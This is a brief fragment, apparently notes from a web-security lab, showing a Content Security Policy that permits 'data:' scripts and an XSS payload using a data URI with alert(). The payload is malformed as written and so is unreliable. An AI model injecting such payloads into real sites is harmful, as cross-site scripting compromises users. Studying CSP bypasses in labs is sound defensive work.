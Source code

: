 ___

Content Security Policy

# Data

```
content-security-policy
	script-src 'self' https://app.hackinghub.io data:
```

```bash
<script data="data:text/html",<script>alert()</script>"></script>
```
